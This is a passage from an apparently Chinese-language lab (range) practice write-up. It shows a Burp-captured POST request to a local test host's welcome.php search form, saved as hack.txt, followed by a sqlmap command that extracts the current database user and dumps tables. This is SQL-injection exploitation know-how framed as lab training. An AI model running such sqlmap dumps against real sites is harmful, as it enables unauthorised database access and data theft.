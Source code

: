 burp抓包

![image-20220321110438192](靶场练习.assets/image-20220321110438192.png)

抓取到的内容

```
POST /welcome.php HTTP/1.1
Host: 192.168.81.144
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.81.144
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36 Edg/99.0.1150.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.81.144/welcome.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=mgnutee8r93e52jdres0rsbui4
dnt: 1
sec-gpc: 1
Connection: close

search=*
```

保存的文件名为：**hack.txt**

## 5.2 获得近来数据库用户

```
sqlmap -r hack.txt --current-user --batch --smart --dump
```
